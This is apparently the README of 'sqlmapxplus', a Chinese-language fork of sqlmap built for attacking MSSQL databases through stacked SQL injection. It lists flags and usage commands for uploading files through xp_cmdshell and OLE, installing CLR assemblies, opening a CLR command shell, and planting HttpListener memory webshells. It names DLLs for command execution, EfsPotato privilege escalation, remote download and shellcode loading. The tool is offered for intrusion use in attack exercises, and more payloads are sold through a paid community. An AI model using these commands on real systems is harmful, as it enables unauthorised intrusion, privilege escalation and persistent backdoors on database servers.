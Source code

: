 ## sqlmapxplus

### 简介

在众多的地区性攻防演练中，SQL Server数据库堆叠注入仍有较高的爆洞频率，但因为一些常见的演练场景限制，如不出网、低权限、站库分离、终端防护、上线困难、权限维持繁琐等，仅一个--os-shell已经难满足我们的需求。

sqlmapxplus 基于sqlmap，对经典的数据库漏洞利用工具进行二开，参考各种解决方法，增加MSSQL数据库注入的利用方式。目前已完成部分二开，包括ole、xpcmdshell两种文件上传、内存马上传、clr安装功能，能够实现mssql注入场景下的自动化注入内存马、自动化提权、自动化添加后门用户、自动化远程文件下载、自动化shellcode加载功能。

1. **更新说明**：
   新增开启ole功能
   新增指定文件读取功能
   新增指定文件移动功能
   新增指定文件复制功能
   新增指定文件删除功能
   新增指定文件位置判断功能
   新增存储过程查询功能
   新增删除存储过程功能
   修改ole上传方式
   修改clr安装流程
   修改clr命令执行方式
   去除中文注释导致的报错
2. 针对实际网络过程中dll传输损失导致clr安装失败的问题（临时解决方法）
   发现在原--install-clr功能中使用的clr dll太大，在实战中往往需要注入的大量次数，如果注入过程中的某一次出现错误，会导致dll落地失败，无法成功打入dll，现将原本一键自动安装的流程去除，修改为用户需要根据实际的目标情况，自定义的dll安装
   临时增加 --check-file 选项判断dll文件是否成功落地目标主机
   临时增加--check-clr 判断用户自定义函数是否在数据库中加载成功

3. 为什么使用上传过程中会出现dll放大的问题
   转换为十六进制落地再还原导致的文件增大，如字母 A 经过十六进制 会转换 为 41，增大一倍

4. 自定义clr的问题（已完成）
   install-clr修改为，需要指定自定义的clr.dll路径，在提示框输入 用户自定义类名 用户自定义方法名
   clr_shell模式下执行clr函数的方式修改为： 用户自定义function 传入参数（已完成）

### Update

```
File system access:
--xp-upload   upload file by xp_cmdshell 
--ole-upload  upload file by ole 
--check-file  use xp_fileexis check file exist 
--ole-del  	  delete file by ole 
--ole-read    read file content by ole 
--ole-move    move file by ole 
--ole-copy    copy file by ole 

Operating system access:
--enable-clr        enable clr 
--disable-clr       disable clr
--enable-ole        enable ole 
--check-clr   check user-defined functions in the database
--del-clr   delete user-defined functions in the database
--install-clr       install clr
--clr-shell         clr shell 
--sharpshell-upload1  sharpshell upload1
--sharpshell-upload2  sharpshell upload2 
```

### Usage

**about ole**:

```
# 开启 ole 利用功能
python sqlmap.py -r/-u xxx --enable-ole 

# 通过 ole 上传文件
python sqlmap.py -r/-u xxx --ole-upload local_file_path --file-dest remote_file_path

# 通过 ole 删除指定文件
python sqlmap.py -r/-u xxx --ole-del remote_file_path

# 通过 ole 阅读指定文件
python sqlmap.py -r/-u xxx --ole-read remote_file_path

# 通过 ole 移动并重命名文件
python sqlmap.py -r/-u xxx --ole-move remote_file_path1 --file-dest remote_file_path

# 通过 ole 复制文件
python sqlmap.py -r/-u xxx --ole-copy remote_file_path1 --file-dest remote_file_path2

# 通过 ole 实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload2 
```

**other function:**

```
# 通过 xp_cmdshell 上传文件
python sqlmap.py -r/-u xxx --xp-upload local_file_path --file-dest remote_file_path

# 使用 xp_fileexis 来检查文件是否存在
python sqlmap.py -r/-u xxx --check-file remote_file_path

# 查询数据库中是否存在用户自定义函数
python sqlmap.py -r/-u xxx --check-clr clr_function_name

# 删除用户自定义函数
python sqlmap.py -r/-u xxx --del-clr clr_function_name

# 通过 xp_cmdshell实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload1 
```

**about clr**:

```
# 开启 clr 利用功能
python sqlmap.py -r/-u xxx --enable-clr 

# 关闭 clr 利用功能
python sqlmap.py -r/-u xxx --disable-clr

# 进入 clr 安装模式
python sqlmap.py -r/-u xxx --install-clr

# 进入 clr-shell 命令交互模式
python sqlmap.py -r/-u xxx --clr-shell 

# clr dll 参考如下，更多其他dll请参考星球获取
# 存储过程类名Xplus，存储过程函数名需要注意大小写，分别为
# ClrExec、ClrEfsPotato、ClrDownload、ClrShellcodeLoader​
# 对应项目目录下单独功能的dll，分别为
clrexec.dll
clrefspotato.dll
clrdownload.dll
clrshellcodeloader.dl
```

### 其他

公众号：赛博大作战

知识星球：渗透测试宝典

旧版本的参考链接：https://mp.weixin.qq.com/s/nTYPKnl9XQLWhZ43sQV3xw

新版本的参考链接：待发布

### References

https://github.com/sqlmapproject/sqlmap 

https://github.com/uknowsec/SharpSQLTools

https://github.com/Anion3r/MSSQLProxy

https://mp.weixin.qq.com/s/X0cI85DdB17Wve2qzCRDbg

https://yzddmr6.com/posts/asp-net-memory-shell-httplistener/
